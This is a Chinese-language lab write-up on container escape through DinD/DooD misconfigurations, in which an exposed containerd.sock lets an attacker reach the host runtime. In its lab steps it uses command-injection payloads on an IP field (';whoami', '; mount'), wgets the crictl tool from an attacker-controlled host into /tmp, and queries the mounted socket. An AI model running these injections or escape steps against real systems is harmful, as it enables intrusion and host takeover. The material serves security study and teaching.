







# 1、原理
- 在 Docker 的实际使用中，存在在容器内操作 Docker的核心需求（如 CI/CD 流水线镜像构建），为满足该需求衍生出两种实现方案：DOOD 容器、DIND 容器，二者的实现原理、安全风险及混合配置问题如下：
  - DOOD 容器（Docker-outside-of-Docker）：
  将宿主机的 Docker 通信套接字 /var/run/docker.sock 挂载到容器内部。
  在这种模式下，容器内并不会启动新的 Docker 守护进程，而是仅运行 Docker 客户端。当在容器内执行 docker ps、docker build 等命令时，这些操作指令会通过 docker.sock 直接发送给宿主机上的 dockerd 进程。
  需要注意的是，宿主机上的 dockerd 默认以 root 权限运行，并且在实际执行容器生命周期管理时，会进一步通过
/run/containerd/containerd.sock 调用底层的容器运行时 containerd。
  这意味着：一旦容器内的用户获得了对 docker.sock 的访问权限，本质上就等同于获得了调用宿主机 root 权限 dockerd 的能力。
 攻击者可以借此创建、删除或修改宿主机上的任意容器，甚至进一步间接操控底层的 containerd，从而实现对宿主机 Docker 环境的完全控制
  
  - DIND 容器（Docker-in-Docker）：
  核心是在宿主机的 Docker 容器内，搭建一套完全独立的 Docker 运行环境。
  该环境会启动专属的 dockerd 进程，用于管理容器内的所有 Docker 操作（如构建镜像、启动子容器），而容器内的 dockerd 同样会通过自身的 containerd.sock 调用内置的 containerd。由于容器内的 dockerd 需要执行创建 cgroup、挂载文件系统等内核级高权限操作，DIND 容器必须以 --privileged（特权模式）启动，这也导致了一个天然的安全问题：特权模式会让整个 DIND 容器突破 Linux 内核的 namespace 隔离，容器内的任意进程均可直接操作宿主机资源（例如执行 mount /dev/sda1 /host，将宿主机硬盘挂载到容器内，实现对宿主机文件系统的读写）。
  若 DIND 容器存在配置不当（如额外将宿主机的 docker.sock 或 containerd.sock 挂载到容器内），则会叠加 DOOD 的风险：挂载 docker.sock 可直接操作宿主机 Docker 环境，挂载 containerd.sock 则可绕过 dockerd 直接操控底层 containerd，实现对宿主机所有容器的生命周期管理

# 2、实验
- 访问漏洞对应端口：


- 经过简单测试这里存在rce：
    ```bash
    192.168.2.19; whoami
    ```
    

- 查看文件挂载情况：
    ```bash
    ; mount
    ```
    
    可以看到容器中挂载了 containerd.sock Unix套接字文件，所以如果该文件是宿主机docker的containerd的套接字，那么攻击者可以通过与该文件进行通信从而实现控制宿主机docker

- 查看该容器信息：
    ```bash
    ; uname -a
    ```
    

- 安装系统对应版本的crictl来调用套接字文件执行命令：
    ```bash
    # crictl工具链接：
    https://github.com/kubernetes-sigs/cri-tools/releases/download/v1.21.0/crictl-v1.21.0-linux-amd64.tar.gz

    # 由于网络问题先下载到本地再进行上传：
    ; wget http://192.168.2.12:1311/crictl-v1.21.0-linux-amd64.tar.gz -O /tmp/crictl-v1.21.0-linux-amd64.tar.gz
    ```
    

- 解压到tmp/目录下：
    ```bash
    ; tar -xvf /tmp/crictl-v1.21.0-linux-amd64.tar.gz -C /tmp/
    ```
    

- 查看crictl状态：
    ```bash
    ; cd tmp; ls -ahl
    ```
    

- 通过crictl查看容器运行时信息：
    ```bash
    ; /tmp/crictl -r unix:///custom/containerd/containerd.sock info
    ```
    
    成功获取到容器运行时信息！！！